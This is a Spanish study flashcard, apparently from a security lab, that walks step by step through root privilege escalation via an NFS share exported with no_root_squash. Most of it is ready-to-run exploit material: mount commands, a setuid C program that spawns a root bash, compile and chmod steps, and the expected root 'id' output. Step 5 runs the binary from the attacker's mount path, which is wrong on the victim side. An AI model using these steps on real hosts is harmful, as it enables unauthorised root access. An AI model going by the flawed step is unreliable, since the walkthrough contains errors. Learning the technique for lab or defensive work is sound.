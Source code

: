 **Flashcard: Escalada NFS `no_root_squash` – Paso a paso reproducible**

---

**Objetivo:** Obtener shell root en una máquina víctima a través de un share NFS que tiene `no_root_squash`.

---

### 1. Verificar exports en la víctima

```bash
showmount -e 10.201.123.117
# Output ejemplo:
# /home/ubuntu/sharedfolder *
# /tmp                      *
# /home/backup              *
```

* `no_root_squash` permite que archivos creados con root en la atacante mantengan UID 0 en la víctima.

---

### 2. Montar el share NFS desde la atacante

```bash
sudo mkdir -p /mnt/nfs
sudo mount -t nfs 10.201.123.117:/tmp /mnt/nfs
cd /mnt/nfs
ls
# Verás: snap.lxd, systemd-private-*, etc.
```

* Montamos `/tmp` de la víctima en nuestra atacante.
* Cualquier archivo creado aquí **puede aparecer como root** en la víctima si tiene propietario root + SUID.

---

### 3. Crear el binario SUID en C

Archivo `nfs.c`:

```c
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);
    setgid(0);
    system("/bin/bash");
    return 0;
}
```

* `setuid(0)` → ejecuta como root.
* `system("/bin/bash")` → lanza shell interactiva.
* `setgid(0)` → grupo root.

---

### 4. Compilar como root en la atacante

```bash
sudo su                # subirse a root en la atacante
gcc nfs.c -o nfs -fno-stack-protector -static
cp nfs /mnt/nfs/       # copiar al share NFS
chown root:root /mnt/nfs/nfs  # importante: propietario root
chmod +s /mnt/nfs/nfs  # activar SUID
ls -l /mnt/nfs/nfs
# Debe mostrar: -rwsr-sr-x 1 root root 769824 ...
```

* **Propietario root** + **SUID activo** = la víctima ejecutará el binario como root.
* `-static` asegura compatibilidad de librerías si la víctima no tiene gcc.

---

### 5. Ejecutar desde la víctima

```bash
/mnt/nfs/nfs
id
# Debe mostrar:
# uid=0(root) gid=0(root), groups=0(root),1001(karen)
```

* Ahora tienes **shell root completo**.
* El usuario original (`karen`) se mantiene en los grupos, pero el UID es 0.

---

### 6. Claves a recordar

1. **SUID solo funciona si propietario = root**.
2. **`no_root_squash`** en NFS permite que root sea respetado en la víctima.
3. Compilar como usuario normal no funciona; la víctima seguirá ejecutando el binario con tu UID normal.
4. Usar `-fno-stack-protector` y `-static` evita protecciones y problemas de librerías dinámicas.
5. Flujo completo:
   `Share NFS escribible con no_root_squash → binario SUID con root → ejecutar en víctima → shell root`.

---
